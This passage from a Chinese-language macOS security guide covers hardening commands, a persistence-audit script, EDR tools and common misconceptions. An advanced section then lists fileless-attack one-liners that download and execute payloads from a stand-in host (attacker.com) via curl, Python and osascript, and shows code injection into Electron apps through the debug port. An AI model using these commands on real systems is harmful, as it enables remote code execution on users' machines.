# 2. 启用 FileVault 全盘加密
sudo fdesetup enable

# 3. 配置防火墙
# 系统偏好设置 → 安全性与隐私 → 防火墙 → 开启
# 或使用命令行
sudo /usr/libexec/ApplicationFirewall/socketfilterfw --setglobalstate on

# 4. 禁止未知来源应用
sudo spctl --master-enable

# 5. 定期审查 Launch Agent/Daemon
# 创建检测脚本
cat > /usr/local/bin/check_persistence.sh << 'SCRIPT'
#!/bin/bash
echo "=== Launch Agents (User) ==="
ls -la ~/Library/LaunchAgents/ 2>/dev/null

echo ""
echo "=== Launch Agents (System) ==="
ls -la /Library/LaunchAgents/ 2>/dev/null

echo ""
echo "=== Launch Daemons ==="
ls -la /Library/LaunchDaemons/ 2>/dev/null

echo ""
echo "=== Login Items ==="
osascript -e 'tell application "System Events" to get the name of every login item' 2>/dev/null

echo ""
echo "=== Cron Jobs ==="
crontab -l 2>/dev/null

echo ""
echo "=== Suspicious Unsigned Binaries ==="
find /usr/local/bin ~/bin -type f ! -exec sh -c 'codesign -dv "{}" 2>&1 | grep -q "Signature=adhoc" && echo "UNSIGNNED: {}"' \; 2>/dev/null

echo ""
echo "=== Check Complete ==="
SCRIPT
chmod +x /usr/local/bin/check_persistence.sh
```

#### 4.9.3 EDR/MDM 企业防御

对于企业环境，推荐使用专业 EDR（Endpoint Detection and Response）解决方案：

| 工具 | 类型 | 核心能力 |
|------|------|----------|
| CrowdStrike Falcon | EDR | 行为分析、内存检测、实时响应 |
| Jamf Pro | MDM | 设备管理、策略下发、合规检查 |
| Microsoft Defender for Endpoint | EDR | 跨平台检测、威胁情报、自动化响应 |
| osquery | 开源 | SQL 查询系统状态、异常检测 |
| Santa | Google 开源 | 二进制白名单/黑名单、内核级控制 |

### 4.10 常见误区与纠正

| 误区 | 纠正 |
|------|------|
| 移除 quarantine 属性就能绕过 Gatekeeper | macOS Ventura+ 对未签名/未公证应用仍有额外检查 |
| Ad-hoc 签名等于合法签名 | Ad-hoc 签名没有证书链，不经过 Apple 验证，其他机器上仍会被拦截 |
| SIP 可以通过 root 权限禁用 | SIP 只能在恢复模式下修改，root 权限无法绕过 |
| XProtect 覆盖了所有已知恶意软件 | XProtect 的规则库远小于商业杀毒软件，主要覆盖高知名度威胁 |
| macOS 不需要杀毒软件 | macOS 恶意软件数量在增长，XProtect 不是万能的 |
| UPX 压缩可以有效免杀 | UPX 特征已被主流安全产品广泛检测，反而增加可疑度 |
| Launch Agent 只能在用户登录时运行 | `KeepAlive` 配置可使 Agent 在崩溃后自动重启 |

### 4.11 进阶话题

#### 4.11.1 无文件攻击（Fileless Attack）

完全在内存中执行，不落地文件到磁盘：

```bash
# 使用 curl + pipe 直接执行远程脚本（无文件落地）
/usr/bin/curl -s http://attacker.com/payload.sh | /bin/bash

# 使用 python 在内存中执行
/usr/bin/python3 -c "
import urllib.request
exec(urllib.request.urlopen('http://attacker.com/payload.py').read())
"

# 使用 NSAppleScript 在内存中执行
osascript -e 'do shell script "eval \"$(curl -s http://attacker.com/payload.sh)\""'
```

#### 4.11.2 利用 Electron 应用

许多 macOS 应用基于 Electron（VS Code、Slack、Discord 等），可以通过 `--inspect` 参数注入代码：

```bash
# 启动 Electron 应用并开启调试端口
/Applications/Slack.app/Contents/MacOS/Slack --inspect=9222 &

# 通过 Chrome DevTools Protocol 注入 JavaScript
curl -s http://localhost:9222/json | \
    python3 -c "import sys,json; ws=json.load(sys.stdin)[0]['webSocketDebuggerUrl']; print(ws)"
```

#### 4.11.3 Mach-O 分析工具链

```bash
# 完整的 Mach-O 分析工具链
otool -h payload          # Header 信息
otool -l payload          # Load Commands
otool -L payload          # 动态库依赖
otool -tV payload         # 反汇编代码段
otool -s __DATA __data payload  # 数据段

# 使用 Hopper 或 IDA Pro 进行深度分析
# 使用 class-dump 提取 Objective-C 类信息
class-dump /Applications/Target.app/Contents/MacOS/Target

# 使用 jtool2（增强版 otool）
jtool2 -l payload
jtool2 -d __TEXT,__text payload
```
